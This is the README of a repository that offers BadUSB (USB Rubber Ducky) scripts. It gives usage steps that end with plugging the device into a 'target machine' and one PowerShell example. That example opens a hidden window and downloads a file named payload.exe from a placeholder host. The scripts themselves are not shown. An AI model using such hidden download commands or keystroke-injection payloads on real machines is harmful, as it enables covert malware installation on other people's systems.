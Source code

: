 # BadUSB Scripts

<img src="https://bobhinio.pl/assets/BadUsbBanner.webp" width="200" />


This repository contains BadUSB scripts for various use cases. Use them responsibly.

## Features
- Various pre-made scripts for USB Rubber Ducky
- Easy to customize
- Compatible with standard BadUSB devices

## Disclaimer
The files and scripts provided here are shared as-is, without any guarantees. The author cannot be held responsible for any issues or consequences arising from their use. Please use them responsibly and in compliance with applicable laws.

---

### How to Use
1. Flash the script to your BadUSB device.
2. Plug the device into a target machine.
3. Watch it execute the payload.

---

## Preview
Here's an example of a payload in action:
```powershell
powershell -WindowStyle Hidden -Command "Invoke-WebRequest -Uri http://example.com -OutFile payload.exe"
